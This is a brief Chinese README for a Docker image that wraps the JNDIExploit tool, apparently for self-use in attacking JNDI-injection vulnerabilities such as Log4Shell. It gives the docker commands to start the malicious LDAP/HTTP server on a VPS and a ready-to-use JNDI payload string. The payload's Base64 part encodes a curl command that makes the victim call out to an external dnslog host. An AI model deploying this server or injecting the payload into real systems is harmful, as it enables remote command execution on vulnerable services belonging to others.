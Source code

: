 # jndiexp
自用的一键启动JNDIExploit-1.2-SNAPSHOT.jar
用法：

docker pull coffeehb/jndiexp:latest

docker run -it --rm -e LDAP_PORT=1389 -e VPS_IP=你的VPSIP -e HTTP_PORT=8000 -p 8000:8000 -p 1389:1389 coffeehb/jndiexp:latest

JNDI：

```
JNDI:ldap://你的VPSIP:1389/Basic/Command/Base64/Y3VybCB4eHh4c3Nzam5kaWV4cHgyMjJ4eC50cnh4emZpLmkuZG5zbG9nLmNu
```

# 效果：

![avatar](jndiexp.PNG)
